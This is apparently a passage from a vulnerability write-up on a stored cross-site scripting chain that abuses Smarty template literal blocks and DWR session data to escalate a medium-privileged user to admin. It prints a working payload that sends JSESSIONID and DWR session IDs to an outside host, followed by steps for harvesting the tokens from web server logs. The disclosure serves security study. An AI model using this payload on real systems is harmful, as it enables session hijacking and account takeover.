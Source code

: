 ```
var a = document.getElementById('content-marker');
var b = a.innerHTML;

<script> new Image().src="https://ext.server/auth?JSESSIONID="+document.getElementsByTagName("b")[7].nextSibling.nodeValue </script>

{literal}

<script src='/tips/dwrS/engine.js'></script>
<script type="text/javascript">

   var url = '/tips/tipsContent.action';

   function load(url, callback) {
     var xhr = new XMLHttpRequest();

     xhr.onreadystatechange = function() {
       if (xhr.readyState === 4) {
         callback(xhr.response);
       }
     }

     xhr.open('GET', url, true);
     xhr.send('');

   var dwrsessid = dwr.engine._dwrSessionId
   var scrSessId = dwr.engine._dwrSessionId + "/" + dwr.engine._pageId

   new Image().src="https://ext.server/DWR?dwrSessionId="+dwrsessid
   new Image().src="https://ext.server/DWR?scriptSessionId="+scrSessId
   }

   load(url)
</script>
{/literal}
```

So to sum up the vulnerability, using a combination of features from the Smarty template engine and satisfying each requirement from DWR requests via appropriate imports and XHR requests a “medium-ish” privileged user could escalate their privileges to Admin. And problems solved! The final attack is your standard Stored XSS and easy once compared with the creation of the payload:

1.	A ”medium-ish” privileged user creates a custom end user login page with the payload show above.

2.	Through complaining about an issue to a more privileged user or via a more malevolent scenario, a high privileged user visits the stored payload stored by the aforementioned “medium-ish” privileged user where their Session data is leaked similar to the following screenshot.
![apache-access-log.png]({{site.baseurl}}/assets/media/posts/redacted/apache-access-log.png)

3.	The ”medium-ish” privileged user can then harvest the goods from their logs. Perhaps similar to what is shown below: On the external Apache web server something along the lines of the following could be done to harvest the necessary items:
``alias urldecode='python -c "import sys, urllib as ul; print ul.unquote_plus(sys.argv[1])"'``
